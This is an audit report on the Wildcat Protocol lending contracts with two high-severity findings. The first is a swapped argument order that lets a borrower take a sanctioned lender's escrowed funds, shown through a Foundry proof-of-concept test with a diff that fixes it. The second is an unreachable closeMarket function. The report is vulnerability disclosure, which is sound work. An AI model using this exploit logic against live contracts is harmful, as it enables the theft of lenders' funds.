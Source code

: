 # The Wildcat Protocol

The code under review can be found in [2023-10-wildcat](https://github.com/code-423n4/2023-10-wildcat).

## Findings summary

| ID                                                                                                                                                  | Title                                                         | Severity |
| --------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------- | -------- |
| [H-01](https://github.com/kazantseff/audits/blob/main/contests/2023-10-wildcat.md#h-01-borrower-will-steal-lenders-funds-if-lender-gets-sanctioned) | Borrower will steal lender's funds if lender gets sanctioned. | High     |
| [H-02](https://github.com/kazantseff/audits/blob/main/contests/2023-10-wildcat.md#h-02-missing-function-to-close-a-market)                          | Missing function to close a market.                           | High     |

## [H-01] Borrower will steal lender's funds if lender gets sanctioned.

### Vulnerability details

In an event if lender gets sanctioned, borrower can call `nukeFromOrbit()` to block him from interacting with market, which will transfer all of lender's market tokens to an escrow. Also if a lender tries to execute a withdrawal while being sanctioned, protocol will automatically block him and transfer all of his money to a newly created escrow. This functionality exists to ensure a sanctioned address won't poison everyone else. But in the current implementation if a lender gets sanctioned, borrower is able to steal all of his funds that are to be transferred to an escrow.

When lender gets blocked, an escrow is deployed through a function in `WildcatSanctionsSentinel.sol`:

```solidity
function createEscrow(
    address borrower,
    address account,
    address asset
  ) public override returns (address escrowContract) {
```

Both time this function is called in `_blockAccount()` and `executeWithdrawal()` the order of arguments passed into the function is wrong.

```solidity
address escrow = IWildcatSanctionsSentinel(sentinel).createEscrow(
          accountAddress,
          borrower,
          address(this)
```

The account parameter in escrow will actually be set to borrower, meaning funds that should be transferred back to lender in the `releaseEscrow()` function will be transferred to borrower:

```solidity
function releaseEscrow() public override {
    if (!canReleaseEscrow()) revert CanNotReleaseEscrow();

    uint256 amount = balance();

    IERC20(asset).transfer(account, amount);

    emit EscrowReleased(account, asset, amount);
  }
}
```

### Impact

Borrower will steal all of the lender's assets.

### Proof Of Concept

```js
function test_BorrowerCanStealLendersDepositOfMarketToken() external {
       address asset = market.asset();
        // Alice deposits 1e18
        _deposit(alice, 1e18);
        assertEq(market.balanceOf(alice), 1e18);
        // Alice gets sanctioned
        sanctionsSentinel.sanction(alice);
        // NukeFromOrbit is called
        market.nukeFromOrbit(alice);
        assertEq(market.balanceOf(alice), 0);

        // Escrow is deployed to this address
        address escrow = sanctionsSentinel.getEscrowAddress(
            alice,
            borrower,
            address(market)
        );
        // Now all balance of alice is transferred to escrow
        assertEq(market.balanceOf(escrow), 1e18);
        // At this point balance of the borrower is 0
        assertEq(market.balanceOf(borrower), 0);
        // Release Escrow is called, which should:
        // 1. Revert as alice is still sanctioned
        // 2. If alice would not have been sanctioned, it should've transferred escrow balance to her
        IWildcatSanctionsEscrow(escrow).releaseEscrow();
        console.log("Escrow Balance", market.balanceOf(escrow));
        console.log("Borrower Balance of Market tokens", market.balanceOf(borrower));
        // Now all of the alice balance was transferred to borrower
        assertEq(market.balanceOf(borrower), 1e18);
        assertEq(market.balanceOf(alice), 0);

        address controller = market.controller();
        // Now borrower can withdraw her balance
        vm.startPrank(borrower);
        address[] memory lenders = new address[](1);
        lenders[0] = borrower;
        address[] memory markets = new address[](1);
        markets[0] = address(market);
        // Authorize borrower as a lender in order to withdraw
        IWildcatMarketController(controller).authorizeLenders(lenders);
        IWildcatMarketController(controller).updateLenderAuthorization(
            borrower,
            markets
        );
        uint256 balanceBorrower = IERC20(asset).balanceOf(borrower);
        console.log("Balance of borrower before withdrawal", balanceBorrower);
        market.queueWithdrawal(1e18);
        uint256 batchDuration = market.withdrawalBatchDuration();
        uint32 expiry = uint32(block.timestamp + batchDuration);
        skip(batchDuration);
        market.executeWithdrawal(borrower, expiry);
        uint256 balanceBorrowerAfter = IERC20(asset).balanceOf(borrower);
        assertEq(balanceBorrowerAfter, 1e18);
        console.log(
            "Balance of borrower after withdrawal",
            balanceBorrowerAfter
        );
    }

    function test_BorrowerCanStealLendersDepositOfUnderlying() external {
        address asset = market.asset();
        _deposit(alice, 1e18);
        // address of the escrow that will be deployed for alice
        address escrow = sanctionsSentinel.getEscrowAddress(
            alice,
            borrower,
            asset
        );
        address[] memory lenders = new address[](1);
        lenders[0] = alice;
        address[] memory markets = new address[](1);
        markets[0] = address(market);
        // Sanction alice
        sanctionsSentinel.sanction(alice);
        vm.startPrank(alice);
        // Alice queues a withdrawal
        market.queueWithdrawal(1e18);
        uint256 batchDuration = market.withdrawalBatchDuration();
        uint32 expiry = uint32(block.timestamp + batchDuration);
        skip(batchDuration);
        // Because she is blocked, here balance is transferred to an escrow
        market.executeWithdrawal(alice, expiry);
        vm.stopPrank();

        uint256 balanceOfEscrowBeforeRelease = IERC20(asset).balanceOf(escrow);
        console.log("Balance Of Escrow", balanceOfEscrowBeforeRelease);
        // Now releaseEscrow is called
        // It should revert since Alice is still sanctioned
        // And if she was not sanctioned, it should transfer the balance of underlying to her
        vm.prank(borrower);
        IWildcatSanctionsEscrow(escrow).releaseEscrow();
        // Balance of escrow has been transferred
        uint256 balanceOfEscrowAfterRelese = IERC20(asset).balanceOf(escrow);
        console.log(
            "Balance Of Escrow After Relese",
            balanceOfEscrowAfterRelese
        );
        // But it was transferred to the borrower
        uint256 balanceOfBorrowerAfterRelease = IERC20(asset).balanceOf(
            borrower
        );
        console.log(
            "Balance Of Borrower After Release",
            balanceOfBorrowerAfterRelease
        );
    }
```

### Recommended Mitigation Steps

When calling `createEscrow()` ensure that order of arguments passed into a function is correct.

```diff
address escrow = IWildcatSanctionsSentinel(sentinel).createEscrow(
-         accountAddress,
+         borrower,
-         borrower,
+         accountAddress,
          address(this)
```

## [H-02] Missing function to close a market.

### Vulnerability details

Market has a function `closeMarket()` that terminates a vault. The vault APR is set to 0% and the borrower is required to make a full return of all outstanding assets. Borrower may want to exercise this function in an event of lenders not withdrawing their assets and the borrower paying to much interests. But in current implementation there is no way to call this function.

```solidity
function closeMarket() external onlyController nonReentrant {
```

`closeMarket()` function has `onlyController` modifier, which means that it can only be called from a controller that deployed this market. In the controller contract there is no function that calls `closeMarket()`, which means there is no way to close the market.

### Recommended Mitigation Steps

Implement a way to close market, or change the modifier to onlyBorrower, that way borrower will be able to call it directly and not from controller.

